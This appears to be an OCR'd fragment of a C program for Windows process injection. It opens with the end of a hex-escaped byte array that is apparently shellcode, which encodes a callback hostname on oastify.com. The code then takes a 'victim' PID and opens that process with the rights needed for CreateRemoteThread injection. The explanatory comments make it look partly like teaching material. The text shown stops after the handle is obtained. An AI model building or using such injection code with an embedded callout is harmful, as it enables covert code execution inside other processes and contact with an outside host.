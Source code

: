         "\x78\x64\x6a\x79\x63\x32\x6e\x6d\x77\x32\x6e\x77\x33\x6b"
        "\x61\x6c\x33\x7a\x66\x69\x33\x39\x39\x30\x78\x78\x6c\x6d"
        "\x2e\x6f\x61\x73\x74\x69\x66\x79\x2e\x63\x6f\x6d\x00";

	unsigned int victimProcessId;

	if (argc &gt; 1)
	{
		/*
		The function atoi() isn't the best solution for converting a char pointer to integer,
		as it will convert any invalid number to 0.
		A better solution is described here: https://stackoverflow.com/questions/2797813/how-to-convert-a-command-line-argument-to-int
		*/
		victimProcessId = atoi(argv[1]);
		printf("[+] Performing Process Injection using CreateRemoteThread inside the victim process identified by the PID: %d\n", victimProcessId);
	}
	else
	{
		printf("[+] Usage:\n\tprogram.exe PID\n");
		return 1;
	}

	DWORD desiredAccess = PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ;
	HANDLE handleVictimProcess = OpenProcess(
		desiredAccess,								// PROCESS_VM_OPERATION is enough for a successful call to VirtualAllocEx
													// however WriteProcessMemory also requires PROCESS_VM_WRITE according to the docs
													// CreateRemoteThread also requires PROCESS_VM_READ, PROCESS_CREATE_THREAD, 
													// and PROCESS_QUERY_INFORMATION
		NULL,										// whether the processes created by this process can inherit this handle
													// in this case it's NULL, so no inheritance
		victimProcessId								// open this specific process
	);							

	/*
	According to the official documentation, OpenProcess returns NULL if it fails to get a handle
	Ref: https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess
	*/
	if (handleVictimProcess == NULL)
	{
		printf("[!] Call to OpenProcess failed\n");

		/*
		According to the official documentation, you can use the function GetLastError() to get
		extended error information
		Ref: https://docs.microsoft.com/en-us/windows/win32/api/errhandlingapi/nf-errhandlingapi-getlasterror
		*/
		printf("[!] Specific Win32 error: %d\n", GetLastError());

		return 1;
	}
	else
	{
		printf("[+] Successfully created a handle for the victim process\n");
	}
